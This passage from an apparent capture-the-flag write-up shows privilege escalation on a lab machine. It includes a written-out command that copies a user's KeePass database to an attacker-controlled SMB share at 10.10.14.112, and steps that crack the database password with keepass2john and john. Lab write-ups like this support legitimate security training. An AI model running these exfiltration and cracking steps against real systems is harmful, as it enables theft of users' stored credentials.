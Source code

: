 # PrivEsc

There is a KeePass database in Kohsuke's documents folder.

```
C:\Users\Administrator\.jenkins>dir c:\users\kohsuke\documents
	Directory of c:\users\kohsuke\documents
	09/18/2017  01:43 PM             2,846 CEH.kdbx
```

Started an SMB server `impacket-smbserver -smb2support share $(pwd)` and copied the database to our local VM.

```
C:\Users\Administrator\.jenkins>copy c:\users\kohsuke\documents\CEH.kdbx \\10.10.14.112\share\CEH.kdbx
copy c:\users\kohsuke\documents\CEH.kdbx \\10.10.14.112\share\CEH.kdbx
        1 file(s) copied.
```

Converted the file into a valid hash with keepass2john and cracked the hash.

```bash
keepass2john CEH.kdbx > kdbx.hash

john kdbx.hash -w=/usr/share/wordlists/rockyou.txt
CEH:<REDACTED>
```

Opened the database file `keepass2 CEH.kdbx` and inserted the password.

<img src="/assets/img/jeeves/Untitled 7.png" alt="Untitled 7.png" style="width:800px;">

And there it was, our early birthday gift XD.

